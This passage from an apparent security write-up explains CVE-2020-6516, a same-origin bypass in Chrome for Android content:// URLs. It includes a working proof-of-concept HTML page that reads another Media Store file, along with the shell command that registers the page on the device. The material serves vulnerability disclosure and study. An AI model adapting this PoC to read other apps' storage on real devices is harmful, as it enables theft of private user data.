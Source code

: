 CVE-2020-6516 [[13](https://cve.mitre.org/cgi-bin/cvename.cgi?>03</a>] is a SOP bypass on resources loaded via a <code>content://</code> URL. <strong>For example, Javascript code, running from within the context of an HTML document loaded from <code>content://com.example.provider/test.html</code>, can load and access any other resource loaded via a <code>content://</code> URL.</strong> This is a serious vulnerability, especially on devices running Android 9 or previous versions of Android. On these devices scoped storage [<a href=)] is not implemented and, consequently, application-specific data under **/sdcard**, and more interestingly under **/sdcard/Android**, can be accessed via the system's Media Store content provider.

A proof-of-concept is pretty straightforward. An HTML document that uses `XMLHttpRequest` to access arbitrary `content://` URLs is uploaded under **/sdcard**. It is then added in the Media Store and rendered in Chrome, in a fashion similar to the example shown earlier. For demonstration purposes, one can attempt to load `content://media/external/file/747` which is, in fact, the Media Store URL of the "Hello, world!" example. Surprisingly, the Javascript code, running within the origin of the HTML document, will fetch and display the contents of **test.txt**.

```
<html>
<head>
    <title>PoC</title>
    <script type="text/javascript">
        function poc()
        {
            var xhr = new XMLHttpRequest();

            xhr.onreadystatechange = function()
            {
                if(this.readyState == 4)
                {
                    if(this.status == 200 || this.status == 0)
                    {
                        alert(xhr.response);
                    }
                }
            }

            xhr.open("GET", "content://media/external/file/747");
            xhr.send();
        }
    </script>
</head>
<body onload="poc()"></body>
</html>


```

To see this in action, upload the HTML document, shown above, on the device under **/sdcard/test.html**. Then insert it in the Media Store's database:

```
$ content insert --uri content://media/external/file \
    --bind _data:s:/storage/emulated/0/test.html \
    --bind mime_type:s:text/html


```
